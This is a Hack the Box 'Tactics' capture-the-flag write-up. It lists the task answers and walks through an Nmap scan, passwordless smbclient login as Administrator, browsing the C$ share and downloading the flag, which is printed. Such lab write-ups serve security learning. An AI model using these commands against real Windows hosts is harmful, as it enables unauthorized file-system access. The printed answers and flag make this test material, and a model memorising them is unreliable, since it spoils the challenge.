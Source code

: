 # Tactics
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Tactics
* Topic: SMB
* Difficulty: Very easy
* Date: 17-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. Which Nmap switch can we use to enumerate machines when our packets are otherwise blocked by the Windows firewall? 
 - **-Pn**
2. What does the 3-letter acronym SMB stand for? 
- **server message block**
3. What port does SMB use to operate at? 
- **445**
4. What command line argument do you give to `smbclient` to list available shares? 
- **-L**
5. What character at the end of a share name indicates it's an administrative share? 
- **$**
6. Which Administrative share is accessible on the box that allows users to view the whole file system? 
- **C$**
7. What command can we use to download the files we find on the SMB Share?
- **get**
8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system? 
- **PSexec.py**

---
## Flag:
Nmap:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV -Pn 10.129.77.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-17 09:56 EDT
Nmap scan report for 10.129.77.1
Host is up (0.066s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-17T13:56:59
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 59.12 seconds
```

It's running SMB on port 445. We can use `smbclient` to list the shares. If the Administrator user on the host is configured without a password, we should be able to log on without any problems.

Command:

`smbclient -L 10.129.229.124 -U Administrator`

`-L`: List the shars on host.

`-U`: Log on as user, in this case Administrator.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L 10.129.77.1 -U Administrator 
Enter WORKGROUP\Administrator's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.77.1 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

If we connect to `C$` we can get access to the file sysem on the host.

 `smblient \\\\10.129.229.124\\C$ -U Administrator`
 
`\\\\`: Equals to "\\\\" when interpreted, means root of directory.

`\\`: Equals to "\\" when interpreted, means new directory level.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient \\\\10.129.77.1\\C$ -U Administrator
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Apr 21 11:23:49 2021
  Config.Msi                        DHS        0  Wed Jul  7 14:04:56 2021
  Documents and Settings          DHSrn        0  Wed Apr 21 11:17:12 2021
  pagefile.sys                      AHS 738197504  Sun Apr 17 09:51:08 2022
  PerfLogs                            D        0  Sat Sep 15 03:19:00 2018
  Program Files                      DR        0  Wed Jul  7 14:04:24 2021
  Program Files (x86)                 D        0  Wed Jul  7 14:03:38 2021
  ProgramData                        DH        0  Wed Apr 21 11:31:48 2021
  Recovery                         DHSn        0  Wed Apr 21 11:17:15 2021
  System Volume Information         DHS        0  Wed Apr 21 11:34:04 2021
  Users                              DR        0  Wed Apr 21 11:23:18 2021
  Windows                             D        0  Wed Jul  7 14:05:23 2021

                3774463 blocks of size 4096. 1158911 blocks available
```

Let's get the flag.

```console
smb: \> cd Users\Administrator\Desktop\
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Apr 22 03:16:03 2021
  ..                                 DR        0  Thu Apr 22 03:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 11:23:32 2021
  flag.txt                            A       32  Fri Apr 23 05:39:00 2021

                3774463 blocks of size 4096. 1158895 blocks available
smb: \Users\Administrator\Desktop\> get flag.txt
getting file \Users\Administrator\Desktop\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Users\Administrator\Desktop\> exit
       
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt             
f751c19eda8f61ce81827e6930a1f40c
```

**Flag:** `f751c19eda8f61ce81827e6930a1f40c`

---
**Tags:** [[HackTheBox]]